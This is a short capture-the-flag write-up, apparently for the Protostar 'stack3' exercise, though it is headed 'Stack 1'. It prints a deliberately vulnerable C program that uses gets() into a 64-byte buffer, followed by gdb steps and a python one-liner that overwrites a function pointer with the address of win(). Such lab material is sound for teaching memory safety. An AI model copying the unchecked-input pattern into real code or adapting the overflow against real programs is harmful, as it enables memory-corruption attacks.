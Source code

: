 Stack 1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

<p> 
In this task we should change variable from fp=0 to fp=win().<br>
To do that we need to find the address of fp variable. <br>
So it should be after 64 bytes, just the the same overflow the buffer <br>
Then we should find the address of win() function, we can simply find it with debugger. <br>
Finally we should add to the and of 64 bytes our address.
</p>

```shell
gdb ./stack3
(gdb) break *win
(gdb) print win 0x8048424

python -c "print('a' * 64 + '24840408'.decode('hex'))" | ./stack3
```
